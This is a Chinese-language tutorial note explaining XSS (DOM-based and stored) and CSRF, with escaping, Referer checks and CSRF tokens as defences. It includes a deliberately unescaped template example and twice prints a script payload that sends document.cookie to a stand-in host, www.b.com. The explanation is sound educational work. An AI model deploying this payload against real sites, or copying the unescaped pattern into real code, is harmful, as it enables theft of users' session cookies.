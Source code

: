 # XSS和CSRF
## XSS 
- ### 简介
XSS是Cross SiteScript（跨站脚本攻击）的缩写。XSS是程序中常见的漏洞，属于被动式且用于客户端的攻击方式。
- ### 原理
XSS的原理是攻击者向有XSS漏洞的网站中输入恶意的HTML代码，这段代码会自动执行从而达到攻击的目的。例如盗取用户的Cookie、破坏页面结构、重定向到其他网站。
- ### 分类
#### 1、DOM Based XSS
DOM Based XSS是一种基于网页DOM结构的攻击，特点是只攻击少数人。

考虑如下场景：网站a的某个页面可以接受一个参数，并根据参数做出相应的显示：

```
// 输入的url
http://www.a.com?content='aaa'

// 显示模板 template
<html>
    <head>
        <title>demo</title>
    </head>
    <body>
        <p><%- content %></p>
    </body>
</html>

// 后端逻辑
app.get('/', (req, res, next) => {
    let content = req.query.content
    res.render('template', {
        content: content
    })
})
```
这看起来很正常，接受一个参数并且显示出来。但是假如有不怀好意者向用户a发送了一个连接（http://www.a.com?content=<script>window.open("www.b.com?param="+document.cookie)</script>），如果用户a点击了这个链接那么他的Cookie信息便被发送到了网站b。

#### 2、Stored XSS
Stored XSS是存储式XSS漏洞，由于其攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人。

考虑如下场景：有一论坛提供博客留言功能，假如有不怀好意者在文章a下面输入这样的留言：

```
<script>window.open("www.b.com?param="+document.cookie)</script>
```
假如服务端不做验证就插入了数据库，那么当其他用户浏览文章a的时候便可能泄露自己的Cookie信息。

- ### 防范
我们经常听到一句话：永远不要相信用户的输入，以前不是很理解这句话的意思，这里刚好也算是验证了。

最简单的方法是对标签进行转义，例如 

```
< 对应 &lt; 
> 对应 &gt;
```

## CSRF
- ### 简介
CSRF是Cross-site request forgery（跨站请求伪造）的缩写，是一种对网站的恶意利用。
- ### 原理
CSRF攻击是源于WEB的隐式身份验证机制。WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。这句话很重要。

![image](http://s3.51cto.com/wyfs01/M01/16/0C/wKioOVIRjQvjAVsIAABvQu7p_VI704.jpg)

1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A;

2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A;

3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B;

4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A;

5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

- ### 防范
1. 验证HTTP Referer字段

在HTTP头中有一个字段叫Referer，它记录了该HTTP请求的来源地址。而CSRF攻击的必要条件是攻击者在自己的网站伪造请求，所以服务端通过验证Referer判断请求是否来自安全域。

2. 在请求地址中添加token并验证

CSRF攻击成功的先决条件是验证信息全部放在Cookie中，那么只要我们在验证Cookie之前再添加一步验证，且验证信息不是存放在cookie中就可以有效规避CSRF攻击。怎么实现呢？可以在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个token，如果请求中没有token或者token内容不正确，则认为可能是CSRF攻击而拒绝该请求。